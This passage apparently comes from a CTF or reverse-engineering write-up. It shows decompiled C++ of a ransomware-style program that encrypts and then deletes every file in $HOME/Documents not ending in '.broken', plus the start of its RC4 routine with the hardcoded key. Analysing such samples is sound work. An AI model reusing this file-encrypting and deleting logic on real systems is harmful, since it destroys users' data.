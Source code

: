 ```c++
            std::ofstream::close(v18);
            v11 = (const char *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(v17);
            remove(v11);
            v12 = std::operator<<<char>(&std::cout, v15);
            v13 = std::operator<<<std::char_traits<char>>(v12, " is now a secret");
            v4 = (const char *)&std::endl<char,std::char_traits<char>>;
            std::ostream::operator<<(v13, &std::endl<char,std::char_traits<char>>);
            std::ofstream::~ofstream(v18);
            std::ifstream::~ifstream(v19);
            std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v17);
          }
        }
      }
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v16);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v15);
    }
    closedir(dirp);
  }
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v20);
  return 0;
}
```

It checks all the files in `$HOME/Documents`, except `.` and `..` and tries to determine if they end with `.broken` or not. If they don't, they are encrypted and deleted. The file will also be truncated or extended to exactly 1024 bytes.

Encryption looks like this

```c++
__int64 __fastcall encrypt(char *a1)
{
  __int64 result; // rax
  int v2[256]; // [rsp+8h] [rbp-460h]
  char v3[60]; // [rsp+408h] [rbp-60h] BYREF
  unsigned int v4; // [rsp+444h] [rbp-24h]
  int v5; // [rsp+448h] [rbp-20h]
  int v6; // [rsp+44Ch] [rbp-1Ch]
  int k; // [rsp+450h] [rbp-18h]
  unsigned int v8; // [rsp+454h] [rbp-14h]
  int v9; // [rsp+458h] [rbp-10h]
  int j; // [rsp+45Ch] [rbp-Ch]
  int v11; // [rsp+460h] [rbp-8h]
  int i; // [rsp+464h] [rbp-4h]

  strcpy(v3, "A secret is no longer a secret once someone knows it");
  result = 'emos ecn';
  for ( i = 0; i <= 255; ++i )
  {
    result = i;
    v2[i] = i;
  }
  v11 = 0;
  for ( j = 0; j <= 255; ++j )
  {
    v11 = (v2[j] + v11 + v3[j % 52]) % 256;
    v6 = v2[j];
    v2[j] = v2[v11];
    result = v11;
    v2[v11] = v6;
```